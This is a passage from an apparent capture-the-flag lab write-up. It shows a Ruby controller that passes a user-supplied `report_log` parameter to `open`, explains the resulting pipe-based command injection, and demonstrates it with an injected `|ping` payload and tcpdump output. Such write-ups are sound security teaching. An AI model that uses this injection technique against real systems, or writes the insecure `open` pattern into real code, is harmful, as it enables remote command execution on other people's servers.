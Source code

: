         report_log = params[:report_log]
    
        begin
          file = open(report_log)
          @content = ""
          while line = file.gets
            @content += line
          end
          send_data @content, :filename => File.basename(report_log)
        rescue
          redirect_to request.referrer, flash: { error: "The report was not found." }
        end
    
      end
    end
    

### Command Injection via Insecure Open

#### Background

I’ve shown a couple times the insecure manner in which Perl uses the `open`
command (recently in [Investigation](/2023/04/22/htb-
investigation.html#vulnerability-details), and before that as diamond
injection in [Pikaboo](/2021/12/04/htb-pikaboo.html#exploit-cvsupdate)).

[This post](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) from
Bishop Fox shows how Ruby can be abused the same way. The above code shows
that the contents of the `report_log` parameter are passed directly to `open`.
Given that I control that, if I lead that file path with a `|`, it will
execute what follows.

The details are also clear in the [Ruby docs](https://ruby-
doc.org/core-2.1.0/Kernel.html#method-i-open):

> If `path` starts with a pipe character (`"|"`), a subprocess is created,
> connected to the caller by a pair of pipes. The returned [IO](https://ruby-
> doc.org/core-2.1.0/IO.html) object may be used to write to the standard
> input and read from the standard output of this subprocess.

#### POC

I’ll start with a simple `ping` by updating `report_log=|ping -c 1
10.10.14.6`. I’ll listen with `tcpdump`, and nn triggering this, there are
ICMP packets:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    23:14:02.388656 IP 10.10.11.190 > 10.10.14.6: ICMP echo request, id 42664, seq 1, length 64
    23:14:02.388688 IP 10.10.14.6 > 10.10.11.190: ICMP echo reply, id 42664, seq 1, length 64
    

In fact, because the result is POSTed to me, I can see them at `nc`:
